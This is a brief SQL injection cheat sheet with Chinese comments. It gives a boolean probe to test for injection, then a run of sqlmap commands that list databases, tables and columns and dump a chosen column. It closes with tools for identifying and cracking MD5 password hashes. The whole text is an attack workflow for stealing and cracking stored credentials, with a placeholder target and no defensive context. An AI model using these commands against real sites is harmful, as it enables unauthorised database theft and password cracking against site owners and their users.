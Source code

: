 #检测是否存在注入
url + and1=1,or1=2
#查找漏洞
sqlmap -u url --dbs
##指定数据库查表
sqlmap -u url -D db_name --tables
##指定表字段
sqlmap -u url -D db_name -T table_name --columns
##指定字段dump
sqlmap -u url -D db_name -T table_name -C column_name column --dump

##密码hash提取
Hash-identifier

findmyhash MD5 -h hash_value
